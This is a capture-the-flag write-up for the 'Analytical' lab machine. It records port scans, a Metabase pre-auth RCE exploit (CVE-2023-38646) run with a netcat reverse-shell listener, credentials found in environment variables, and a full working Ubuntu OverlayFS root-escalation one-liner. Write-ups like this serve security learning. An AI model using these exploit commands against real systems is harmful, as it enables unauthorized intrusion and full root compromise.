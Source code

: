 we start the machine with a simple port scan:
	
	rustscan -a 10.10.11.233
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
for a better scan i run:
	
	nmap -sC -sV -p80,22 10.10.11.233
output:
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
	|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Analytical
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
so the first thing i did is visit the webserver on port 80,
but got this:
	
![webserver domain](./pic/ip.png)
	
that means that we need to add it to /etc/hosts:
	
	echo '10.10.11.233	analytical.htb' >> /etc/hosts
after that we can visit the site:
	
![site](./pic/site.png)
	
there is not much clickable in the site apart from the login page. but we need to add another subdomain for this page first:
	
	echo '10.10.11.233	data.analytical.htb' >> /etc/hosts
now we can visit and see this:
	
![login page](./pic/login.png)
	
i immediatly searched for public exploits and PoC and found this:
	
https://github.com/alexandre-pecorilla/CVE-2023-38646
	
but we need to get the token first. I found it thanks to that post:
	
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
	
so we need to visit this endpoint:
	
	/api/session/properties
and check for tokens:
	
![token](./pic/token.png)
	
now that we have the token we can start a listener with:
	
	nc -lvnp 4444
and launch our exploit with:
	
	python3 CVE-2023-38646.py -u http://data.analytics.htb -t [REDACTED] -i 10.10.14.191 -p 4444
WE GOT THE CALLBACK!
now is time for enumeration:
we are inside a docker:
	
	ls -a /
output:
	
	.
	..
	.dockerenv
	[...]
so we need to perform a dockerescape... but how??
so i uploaded linpeas on the machine and found something strange:
	
![credenziali](./pic/creds.png)
	
inside the enviroment variable of the machine there are some creds.
I tried them on ssh and worked!!
so i loged in and submitted the flag.
<!-->
Time to privesc.
<!-->
This part took me a while, in fact i dind't find anything on the box so i searched for recent exploits related to this machine,
by running:
	
	uname -a
output:
	
	Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

i found this:
	
https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability
	
and searched more about some exploits.
Finally i found that it maybe vulnerable to overlay exploit.
around there are a lot of PoC.
but i found this:
```bash
#!/bin/bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'"
```
from this reddit post:
	
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/
	
so i run it and GOT ROOT!!
(also we can run this exploit):
	
https://medium.com/@omerbureyde/overlayfs-cve-2021-3493-9f675613fe1e
	
just compile it locally and then upload it to the machine, execute and u will be root!
